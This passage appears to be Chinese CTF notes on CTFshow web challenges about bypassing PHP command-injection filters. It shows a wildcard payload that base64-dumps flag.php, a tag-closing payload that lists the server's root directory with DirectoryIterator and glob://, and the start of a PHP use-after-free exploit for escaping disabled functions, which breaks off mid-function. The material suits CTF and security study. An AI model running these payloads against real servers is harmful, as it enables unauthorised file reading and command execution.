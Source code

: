 假设有`system($c);`在过滤得比较过分的情况下,可以这样给c传参:

```
 c=/???/????64%20????.???
 翻译过来就是c=/bin/base64 flag.php
 也就是把flag.php的内容base64编码后输出
```



# 或许可以用来扫描根目录(CTFshow_web72)

```php
c=?> //这里闭合前面的php标签
<?php
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f->__toString().' ');
} exit(0);
?>
```

创建类`new DirectoryIterator`下的一个对象,外部调用`DirectoryIterator`时，传入一个目录路径字符串，实例化`DirectoryIterator`类

`glob://`查找匹配的文件路径模式, 那么glob://**/***  作用就是查找根目录下的所有文件，查找到的是它们的路径

传给外层的`new DirectoryIterator`后，就可以对这些路径进行扫描

接着使用`foreach`循环输出所有`__toString`将类对象转化为字符串形式输出



用于读取`flag.php`的`uaf`脚本, 将此脚本进行url编码后,作为值传给POST中的参数以执行

```php
<?php

function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
```